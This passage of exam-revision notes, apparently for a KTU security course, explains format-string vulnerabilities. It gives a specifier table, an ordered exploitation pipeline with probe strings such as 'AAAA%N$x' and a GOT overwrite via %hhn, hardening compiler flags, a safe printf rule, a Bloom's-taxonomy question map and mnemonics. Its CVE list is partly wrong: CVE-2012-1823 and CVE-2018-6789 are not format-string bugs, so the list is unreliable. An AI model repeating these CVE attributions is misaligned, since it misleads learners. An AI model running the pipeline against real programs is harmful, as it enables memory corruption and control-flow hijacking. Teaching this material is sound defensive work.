- **WRITE primitive:** `%n` (4 bytes), `%hn` (2 bytes), `%hhn` (1 byte) → arbitrary memory write.

### Key Format Specifiers
| Specifier | Effect |
|---|---|
| `%x` | Read 4 bytes hex |
| `%lx` / `%p` | Read 8 bytes (64-bit) |
| `%s` | Read pointer and dereference as string |
| `%n` | Write 4-byte count to `int*` |
| `%hn` | Write 2-byte count to `short*` |
| `%hhn` | Write 1-byte count to `char*` |
| `%N$x` | Direct parameter access (positional) |

### Exploitation Pipeline (memorise this order)
1. **Fuzz** with `%x %x %x` → confirm stack leak
2. **Locate** input offset with `AAAA%N$x`
3. **Leak** libc/PIE/canary with `%N$p` or `%N$s`
4. **Compute** target addresses (system, one-gadget)
5. **Write** with `%hhn` (4 byte-writes to overwrite GOT)
6. **Trigger** the hijacked function

### Defence Formulas (compile flags)
```bash
gcc -O2 -D_FORTIFY_SOURCE=2 \
    -Wformat -Wformat-security -Werror=format-security \
    -fstack-protector-strong -pie -fPIE \
    -o safe_app vuln.c
```

### Golden Secure-Code Rule
> **"Format string must be a literal you control. User input must be an argument."**
> ```c> printf("%s", user_input);   // SAFE
> printf(user_input);           // UNSAFE — Format String Vulnerability
> ```

### Real-World CVEs to Remember
- **CVE-2000-0573** — WU-FTPD (iconic first public format-string RCE)
- **CVE-2001-0732** — OpenSSH `syslog` auth-pam
- **CVE-2012-1823** — PHP `sprintf` CGI mode
- **CVE-2018-6789** — Exim mail server

### KTU Bloom's-Taxonomy Quick Map
| Cognitive Level | Verb in Question | Example Question |
|---|---|---|
| Remember | Define, List, State | "Define Format String Vulnerability" |
| Understand | Explain, Describe, Summarise | "Explain how `%n` leads to memory corruption" |
| Apply | Implement, Construct, Use | "Rewrite the vulnerable `printf` call safely" |
| Analyse | Compare, Differentiate, Examine | "Compare Format String vs Buffer Overflow" |
| Evaluate | Justify, Critique, Assess | "Evaluate the effectiveness of `-D_FORTIFY_SOURCE=2`" |
| Create | Design, Propose, Develop | "Design a logging wrapper immune to format-string bugs" |

### Quick Mnemonics
- **"AAAs leak, `%n` writes, positional `%N$x` jumps."**
- **"Four bytes leak per `%x`, one byte writes per `%hhn`."**
- **"Literal format, user argument — that's the only safe way."**

<!-- SECTION_5_END -->
